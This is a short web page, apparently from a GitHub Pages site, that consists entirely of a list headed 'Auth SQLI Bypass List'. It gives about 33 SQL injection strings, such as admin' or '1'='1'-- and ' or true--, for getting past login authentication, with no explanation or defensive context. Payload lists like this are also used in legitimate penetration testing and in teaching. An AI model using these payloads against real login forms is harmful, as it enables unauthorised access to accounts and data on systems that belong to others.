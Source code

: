 ```yaml
---
title: /_posts
layout: default
permalink: /_posts
---
```


# Auth SQLI Bypass List

<pre>
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or 1=1 limit 1 -- -+ 
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true-- 
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
")) or (("x"))=(("x
1=1 or 1=1--
or 1=1#
or 1=1/*
admin' --
admin''--
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
</pre>
